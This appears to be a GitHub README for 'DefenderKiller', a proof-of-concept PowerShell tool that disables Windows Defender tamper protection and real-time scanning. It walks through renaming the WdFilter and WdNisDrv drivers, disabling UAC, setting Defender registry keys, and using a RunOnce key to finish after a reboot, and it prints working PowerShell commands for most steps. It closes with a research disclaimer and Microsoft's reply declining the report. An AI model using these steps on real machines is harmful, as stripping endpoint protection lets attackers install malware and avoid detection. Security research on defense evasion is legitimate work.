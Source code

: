 # DefenderKiller: A Tamper Protection Bypass PoC

### This PoC is currently working on all versions of Windows, please note that the canary build of windows 11 has moved the driver files from the "wd" subfolder to the main "drivers" folder. This does not affect the bypass, and a check has been added to locate the drivers.

## Overview

DefenderKiller is a proof-of-concept (PoC) repository that demonstrates a workaround for disabling Windows Defender’s tamper protection and real-time protection components. Inspired by [Disabling Tamper Protection and Other Defender MDE Components](https://www.alteredsecurity.com/post/disabling-tamper-protection-and-other-defender-mde-components) by Altered Security, this PoC adapts the technique of swapping driver files while also automating several critical steps. In this case, the core bypass is implemented by renaming Windows Defender driver files—preventing `wdfilter` from loading—thus effectively disabling tamper protection. Additional enhancements include automated downloads, elevation handling via AdvancedRun, UAC disablement, and registry modifications.

## Technical Details

The script is structured in multiple stages to ensure a reliable and reversible process. Below is a breakdown of the key technical components:

### 1. AdvancedRun Download and Integration

- **Download and Extract AdvancedRun:**  
  The script first checks for the presence of the **AdvancedRun.exe** executable under `C:\ProgramData\AdvancedRun`. If missing, it downloads the AdvancedRun package from NirSoft, extracts it, and places it in the designated directory.
  - *Key Commands:*
    - `Invoke-WebRequest` downloads the ZIP archive.
    - `Expand-Archive` extracts the executable for later use.

- **Elevated Command Execution:**  
  A helper function, `Invoke-ElevatedCommand`, leverages AdvancedRun to run commands with elevated privileges. This ensures that subsequent operations such as renaming system drivers or modifying the registry can be executed without UAC prompts.
  - *Key Implementation:*
    ~~~powershell
    function Invoke-ElevatedCommand {
        param(
            [Parameter(Mandatory=$true)]
            [string]$Command
        )
        $arguments = '/RunAs 8 /RunMode 4 /CommandLine "' + $Command + '" /Run'
        Start-Process -FilePath $global:advRunPath -ArgumentList $arguments -Wait
    }
    ~~~

### 2. Disabling UAC

The function `Disable-UAC` changes the registry setting for UAC (`EnableLUA`) to 0, preventing further interruptions by User Account Control during the remainder of the process. This is particularly useful for ensuring that all elevated operations run seamlessly.
- *Key Command:*
  ~~~powershell
  Set-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System' -Name 'EnableLUA' -Value 0 -Force
  ~~~

### 3. Driver File Detection and Swapping

- **Driver Check:**  
  The `Get-WdDriversPath` function looks for the presence of the Defender drivers (`WdFilter.sys` and `WdNisDrv.sys`). If both files are found, it returns the path to the directory.
  - *Logic:*
    - It iterates through potential directories (`C:\Windows\System32\drivers` and `C:\Windows\System32\drivers\wd`).
    - Confirms that both critical driver files exist before proceeding.

- **Driver Swapping:**  
  The `Swap-WdDrivers` function performs the core bypass. By renaming the driver files, the script prevents the wdfilter from loading:
  - **Step 1:** `WdFilter.sys` is renamed to `WdFilter_tmp.sys`.
  - **Step 2:** `WdNisDrv.sys` is then renamed to `WdFilter.sys`.
  - **Step 3:** Finally, the temporary file `WdFilter_tmp.sys` is renamed to `WdNisDrv.sys`.
  
  This sequence effectively swaps the driver names so that the expected files are not present where Windows Defender expects to find them.
  - *Key Command Block:*
    ~~~powershell
    $cmd = "Rename-Item -Path '$fileWdFilter' -NewName 'WdFilter_tmp.sys' -Force; " +
           "Rename-Item -Path '$fileWdNisDrv' -NewName 'WdFilter.sys' -Force; " +
           "Rename-Item -Path '$driversDir\WdFilter_tmp.sys' -NewName 'WdNisDrv.sys' -Force; exit"
    Invoke-ElevatedCommand -Command $cmd
    ~~~

### 4. Registry Modifications

After the driver swap and system reboot, the script continues with additional registry modifications to ensure that Windows Defender’s tamper protection and real-time monitoring are disabled:

- **Disabling Tamper Protection:**  
  The function `Disable-TamperProtection` updates registry keys under `HKLM:\SOFTWARE\Microsoft\Windows Defender\Features` to disable tamper protection by setting both `TamperProtection` and `TamperProtectionSource` to `4`.
  - *Key Command:*
    ~~~powershell
    Set-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows Defender\Features' -Name 'TamperProtection' -Value 4 -Force;
    ~~~

- **Disabling AV/MDE:**  
  The `Disable-AV_MDE` function creates a new registry entry under the policies branch for Windows Defender real-time protection and sets `DisableRealtimeMonitoring` to `1`, effectively turning off active antivirus scanning.
  - *Key Command:*
    ~~~powershell
    Set-ItemProperty -Path 'HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection' -Name 'DisableRealtimeMonitoring' -Value 1 -Force;
    ~~~

### 5. RunOnce Registry Key and Controlled Reboot

To manage the multi-stage process:

- **Flag File Creation:**  
  A flag file (`DriverSwapCompleted.txt`) is created in the TEMP directory to determine whether the system reboot already occurred.

- **RunOnce Setup:**  
  The function `Set-RunOnceKey` ensures that after reboot, the script continues with the next steps by placing a command into the `HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce` registry key. This mechanism helps resume the operation seamlessly after the system restarts.

- **Execution Logic:**  
  The script initially performs the driver swap and disables UAC, then sets up the reboot environment. On reboot, it detects the flag file, applies the registry modifications to disable tamper protection and AV/MDE, removes the flag file, and confirms that UAC is disabled system-wide.

## Methodology and Acknowledgments

This repository builds on the core bypass method introduced in the [Altered Security blog post](https://www.alteredsecurity.com/post/disabling-tamper-protection-and-other-defender-mde-components). Special thanks to the author of the original post for providing the insights that inspired this work. While the fundamental concept of disrupting the driver loading sequence remains unchanged, this PoC enhances it by automating additional system modifications, handling privileges more robustly with AdvancedRun, and ensuring a controlled environment through registry and reboot operations.

## Disclaimer

**WARNING:** This PoC is provided for educational and research purposes only. Modifying system security settings, such as disabling Windows Defender tamper protection, may violate organizational policies or local laws. Use responsibly and only in environments where you have explicit permission to test and modify these settings. The contributors and maintainers of this project are not liable for any misuse or damages resulting from the application of this script.

## MSRC Response

> "Upon investigation, we have determined that this submission does not meet the bar for security servicing. This report does not appear to identify a weakness in a Microsoft product or service that would enable an attacker to compromise the integrity, availability, or confidentiality of a Microsoft offering. As submitted, this attack requires administrative privileges. Reports that are predicated on having administrative/root privileges are not valid reports because a malicious administrator can do much worse things.
> 
> As such, this thread is being closed and no longer monitored."

*— Microsoft Security Response Center (MSRC)*
